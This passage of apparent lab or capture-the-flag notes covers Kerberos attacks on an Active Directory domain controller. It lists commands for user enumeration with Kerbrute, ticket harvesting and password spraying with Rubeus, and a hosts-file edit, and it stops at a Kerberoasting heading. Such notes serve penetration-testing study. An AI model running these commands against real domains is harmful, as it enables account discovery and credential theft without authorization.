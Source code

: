 ## Enumeration w/ Kerbrute

- [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting & Brute-Forcing Tickets w/ Rubeus

```
`Rubeus.exe harvest /interval:30`
```

```
echo 10.10.97.145 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```


```
Rubeus.exe brute /password:Password1 /noticket
```

## Kerberoasting w/ Rubeus & Impacket